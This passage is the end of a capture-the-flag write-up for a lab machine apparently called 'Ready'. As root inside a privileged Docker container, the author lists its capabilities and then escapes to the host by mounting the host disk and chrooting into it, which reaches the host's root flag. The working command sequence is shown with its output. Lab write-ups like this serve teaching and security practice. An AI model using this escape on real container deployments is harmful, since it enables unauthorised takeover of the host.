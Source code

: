 ```bash
root@gitlab:~# capsh --print
capsh --print
Current: = cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,37+eip
Bounding set =cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,37
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=0(root)
root@gitlab:~#
```

Following along wih the instructions from the site:

```bash
root@gitlab:/# fdisk -l
---[snip]---
Device        Start      End  Sectors Size Type
/dev/sda1      2048     4095     2048   1M BIOS boot
/dev/sda2      4096 37746687 37742592  18G Linux filesystem
/dev/sda3  37746688 41940991  4194304   2G Linux swap
root@gitlab:/# mkdir /mnt/hole
mkdir /mnt/hole
root@gitlab:/# cd /mnt                
cd /mnt
root@gitlab:/mnt# ls
ls
hole
root@gitlab:/mnt# mount /dev/sda2 hole
mount /dev/sda2 hole
root@gitlab:/mnt# cd hole
cd hole
root@gitlab:/mnt/hole# ls
ls
bin   cdrom  etc   lib    lib64   lost+found  mnt  proc  run   snap  sys  usr
boot  dev    home  lib32  libx32  media       opt  root  sbin  srv   tmp  var
root@gitlab:/mnt/hole# chroot ./ bash
chroot ./ bash
root@gitlab:/# whoami
whoami
root
root@gitlab:/# cd /root
cd /root
root@gitlab:~# ls
ls
docker-gitlab  ready-channel  root.txt  snap
root@gitlab:~#
```

And there it is. That's **Ready**.
